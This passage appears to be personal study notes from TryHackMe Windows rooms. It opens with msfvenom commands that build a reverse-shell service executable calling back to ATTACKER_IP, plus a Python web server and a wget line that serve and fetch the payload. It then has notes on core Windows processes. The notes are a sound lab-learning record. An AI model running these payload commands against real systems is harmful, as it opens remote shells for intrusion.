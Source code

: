 ```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Pull payload: `wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

### Note: Finish notes for

<https://tryhackme.com/room/windowsprivesc20>

## Windows Local Persistence

* Link: <https://tryhackme.com/room/windowslocalpersistence>

## Core Windows Processes

* Link: <https://tryhackme.com/room/btwindowsinternals>
* Useful tools
  * Task Manager
  * tasklist cmd
  * Get-Process
  * PS
  * WMIC
  * Process explorer
  * Process hacker
* System
  * PIDs are not randomly assigned to the system process, it is always 4
  * The System process (process ID 4) is the home for a special kind of thread that runs only in kernel mode a kernel-mode system thread.
  * User v kernal mode: <https://learn.microsoft.com/en-us/windows-hardware/drivers/gettingstarted/user-mode-and-kernel-mode>
    * Kernel: privileged mode gives access to hardware
    * User: interacts with the windows API without direct access to hardware and is unprivileged
* smss.exe (Session Manager Subsystem) = Windows Session Manager
  * First user mode process started by the kernel
  * Starts csrss.exe (Windows subsystem) and wininit.exe in Session 0
  * SMSS is also responsible for creating environment variables, virtual memory paging files and starts winlogon.exe (the Windows Logon Manager).
* csrss.exe (Client Server Runtime Process) is the user-mode side of the Windows subsystem

